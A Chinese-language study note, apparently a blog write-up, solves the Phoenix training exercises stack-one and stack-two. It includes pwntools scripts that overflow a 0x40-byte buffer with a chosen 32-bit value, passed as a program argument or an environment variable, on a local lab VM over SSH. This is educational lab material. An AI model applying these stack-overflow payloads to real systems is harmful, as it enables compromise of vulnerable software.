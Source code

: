 ```yaml
---
title: "[pwn笔记1]stack-one和stack-two (Phoenix)"
urlname: "[pwn笔记1]stack-one和stack-two (Phoenix)"

date: February 15, 2023 9:28 PM
tags: [pwn, stack]
---
```

这两道非常简单，而且只有数据读入方式的区别。跟zero一样，只是对覆盖的数据有要求。

## stack-one

将程序第一个参数`strcpy`到字符串。

![https://s2.loli.net/2023/02/15/P3IYOneKUiS6vNV.png](%5Bpwn%E7%AC%94%E8%AE%B01%5Dstack-one%E5%92%8Cstack-two%20%28Phoenix%29%206c166cabf3d247c5a0c5f5952da34633/P3IYOneKUiS6vNV.png)

在gdb中run后面直接接参数即可带上参数。

pwntools的sh.run可以接收字节数组作为参数，里面可包含启动参数。（看了下文档，对于run方法：Backward compatibility.  Use [system()](https://docs.pwntools.com/en/stable/tubes/ssh.html?highlight=ssh#pwnlib.tubes.ssh.ssh.system)
）

```python
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

s = b"a" * 0x40 + p32(0x496c5962)

sh = shell.run(b"/opt/phoenix/amd64/stack-one " + s)
print(sh.recvlines(2))

```

## stack-two

这次是写到环境变量里。

![https://s2.loli.net/2023/02/15/NhRfz7Ciw8UavO4.png](%5Bpwn%E7%AC%94%E8%AE%B01%5Dstack-one%E5%92%8Cstack-two%20%28Phoenix%29%206c166cabf3d247c5a0c5f5952da34633/NhRfz7Ciw8UavO4.png)

做到这里发现环境变量里写"\0"进去会出问题，我们要求写入的是32位数据，不应该用p64，用了就会自动补0，然后报错。

```python
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

s = b"a" * 0x40 + p32(0x0d0a090a)
print(s)
s = s.decode()
print(s)
sh = shell.run(b"/opt/phoenix/amd64/stack-two", env={"ExploitEducation": s})
print(sh.recvlines(2))

```
